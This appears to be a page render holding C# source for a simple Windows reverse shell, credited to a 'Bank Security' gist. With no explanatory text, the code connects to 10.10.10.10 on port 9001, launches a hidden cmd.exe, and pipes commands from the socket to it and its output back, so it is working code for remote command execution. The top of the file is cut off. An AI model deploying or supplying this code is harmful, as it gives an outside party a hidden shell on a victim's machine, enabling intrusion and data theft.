 ```csharp

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient("10.10.10.10", 9001))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);
						
						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```
From [Bank Security](https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs)
